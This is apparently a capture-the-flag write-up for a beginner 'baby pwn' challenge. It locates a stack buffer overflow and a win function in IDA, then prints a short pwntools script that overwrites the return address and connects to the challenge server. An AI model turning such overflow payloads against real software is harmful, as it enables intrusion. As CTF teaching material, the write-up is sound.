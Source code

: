 # baby pwn

The executable looks like the setup for a pwn-ing challenge indeed:

![](screenshot1.png)

As this is the easiest pwning challenge in this CTF, I decided not to make things too complicated. By opening the executable in IDA, I can see that this is indeed the setup for a basic buffer overflow.

![](screenshot2.png)

Note the `0x200` bytes offset... IDA makes this a bit too easy! There is a `win` function too, clearly to use as target.

![](screenshot3.png)

Even though that's not really necessary for this simple challenge... I use pwntools to create a payload, out of habit. The following indeed does the trick:

```
from pwn import *

context.binary = "./chall"
elf = context.binary

process = elf.process()
payload = cyclic(0x208) + p64(elf.symbols["win"])

process.sendlineafter("name:\n", payload)
process.interactive()
```

I verified that this works locally, and then replaced `process = elf.process()` by `remote("34.76.206.46", 10002)` to get the flag.
